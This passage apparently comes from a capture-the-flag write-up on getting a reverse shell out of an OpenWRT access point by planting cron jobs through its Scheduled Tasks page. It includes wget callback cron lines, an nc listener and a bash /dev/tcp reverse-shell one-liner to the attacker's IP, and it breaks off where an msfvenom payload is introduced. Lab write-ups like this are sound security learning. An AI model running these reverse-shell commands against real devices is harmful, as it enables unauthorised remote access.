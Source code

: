 ### Create Cronjob

#### Identify Capability

Looking around the Open-WRT interface, one of the options is System --\>
Scheduled Tasks:

![](/img/image-20240726140642348.png)

This page offers a blank text box to write cronjob syntax:

![](/img/image-20240726140721916.png)

#### Tracking Network Connectivity

I can write a reverse shell, but it doesn't connect back to my host.
That's because the AP can't route traffic to my IP. I'll test this by
trying cronjobs like these:



    * * * * * wget http://192.168.1.84:4444
    * * * * * wget http://10.10.14.6:443



When the first one is in place, I get a connection back to `nc`
listening on the PLC:



    root@attica01:~# nc -lnvp 4444
    Listening on 0.0.0.0 4444
    Connection received on 192.168.1.1 55352
    GET / HTTP/1.1
    Host: 192.168.1.84:4444
    User-Agent: uclient-fetch



But there's never a connection back to my host.

#### Getting Shell

The exploit on OpenPLC seems to lock up the webserver, so I can't get a
second shell by just exploiting it again. I'll use
`bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1 &'` to kick off
another shell in the background, to get a few shells for the upcoming
process.

I can try a [Bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but it also doesn't
work because Open-WRT doesn't have Bash. I spent a long time trying to
get a `mkfifo` [shell](https://www.youtube.com/watch?v=_q_ZCy-hEqg) to
work, but failed.

What does work is generating a ELF binary reverse shell with `msfvenom`:

